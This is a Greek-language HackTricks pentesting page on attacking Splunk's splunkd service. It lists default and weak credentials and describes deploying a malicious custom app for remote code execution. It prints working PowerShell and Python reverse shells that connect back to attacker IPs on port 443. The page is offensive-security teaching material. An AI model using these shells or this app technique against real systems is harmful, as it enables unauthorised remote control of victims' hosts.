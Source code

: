 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Βασικές Πληροφορίες**

* Εργαλείο ανάλυσης καταγραφών που χρησιμοποιείται για τη συλλογή, ανάλυση και οπτικοποίηση δεδομένων
* Χρησιμοποιείται συνήθως στην παρακολούθηση ασφάλειας και στην επιχειρηματική ανάλυση
* Προεπιλεγμένες θύρες:
* Διακομιστής ιστού: 8000
* Υπηρεσία Splunkd: 8089

### Δυνητικοί Κίνδυνοι:

1. Εκμετάλλευση Δωρεάν Έκδοσης

* Η δοκιμαστική έκδοση μετατρέπεται αυτόματα σε δωρεάν έκδοση μετά από 60 ημέρες
* Η δωρεάν έκδοση δεν διαθέτει αυθεντικοποίηση
* Πιθανός κίνδυνος ασφάλειας αν αφεθεί χωρίς διαχείριση
* Οι διαχειριστές μπορεί να παραβλέψουν τις επιπτώσεις στην ασφάλεια

2. Αδυναμίες Διαπιστευτηρίων

* Παλαιότερες εκδόσεις: Προεπιλεγμένα διαπιστευτήρια `admin:changeme`
* Νεότερες εκδόσεις: Διαπιστευτήρια που ορίζονται κατά την εγκατάσταση
* Πιθανότητα χρήσης αδύναμων κωδικών πρόσβασης (π.χ., `admin`, `Welcome`, `Password123`)

3. Ευκαιρίες Εκτέλεσης Κώδικα από Απόσταση

* Πολλές μέθοδοι εκτέλεσης κώδικα:
* Εφαρμογές Django πλευράς διακομιστή
* REST endpoints
* Σενάρια εισόδου
* Σενάρια ειδοποίησης
* Υποστήριξη πολλαπλών πλατφορμών (Windows/Linux)
* Τα σενάρια εισόδου μπορούν να εκτελούν:
* Bash scripts
* PowerShell scripts
* Batch scripts

Κύρια Δυνατότητα Εκμετάλλευσης:

* Αποθήκευση ευαίσθητων δεδομένων
* Έλλειψη αυθεντικοποίησης στη δωρεάν έκδοση
* Πολλοί κίνδυνοι για πιθανή εκτέλεση κώδικα από απόσταση
* Δυνατότητα εκμετάλλευσης σενάριων εισόδου για συμβιβασμό συστήματος

### Shodan

* `Splunk build`

## RCE

### Δημιουργία Προσαρμοσμένης Εφαρμογής

Το Splunk προσφέρει μια προηγμένη μέθοδο για την εκτέλεση κώδικα από απόσταση μέσω της ανάπτυξης προσαρμοσμένων εφαρμογών, εκμεταλλευόμενο τις δυνατότητες scripting πολλαπλών πλατφορμών του. Η βασική τεχνική εκμετάλλευσης περιστρέφεται γύρω από τη δημιουργία μιας κακόβουλης εφαρμογής που μπορεί να εκτελεί reverse shells σε συστήματα Windows και Linux.

Μια προσαρμοσμένη εφαρμογή μπορεί να εκτελεί **Python, Batch, Bash ή PowerShell scripts**. Επιπλέον, **το Splunk έρχεται με εγκατεστημένο Python**, οπότε ακόμη και σε **συστήματα Windows** θα μπορείτε να εκτελείτε κώδικα python.

Μπορείτε να χρησιμοποιήσετε [**αυτό**](https://github.com/0xjpuff/reverse_shell_splunk) το παράδειγμα με το **`bin`** που περιέχει παράδειγμα για [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) και [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Ή μπορείτε να δημιουργήσετε το δικό σας.

Η διαδικασία εκμετάλλευσης ακολουθεί μια συνεπή μεθοδολογία σε όλες τις πλατφόρμες:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Το κρίσιμο αρχείο ρυθμίσεων `inputs.conf` ενεργοποιεί το σενάριο με:

* Ρύθμιση `disabled = 0`
* Διαμόρφωση ενός διαστήματος εκτέλεσης 10 δευτερολέπτων
* Ορισμός του τύπου πηγής του σεναρίου

Η ανάπτυξη είναι απλή:

1. Δημιουργήστε το κακόβουλο πακέτο εφαρμογής
2. Ρυθμίστε έναν ακροατή (Netcat/socat) στη μηχανή επίθεσης
3. Ανεβάστε την εφαρμογή μέσω της διεπαφής του Splunk
4. Ενεργοποιήστε την αυτόματη εκτέλεση του σεναρίου κατά την ανέβασμα

Δείγμα Windows PowerShell reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Δείγμα αντίστροφης θηλιάς Python σε Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Στην παρακάτω σελίδα μπορείτε να βρείτε μια εξήγηση για το πώς αυτή η υπηρεσία μπορεί να καταχραστεί για να κλιμακώσει τα δικαιώματα και να αποκτήσει επιμονή:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
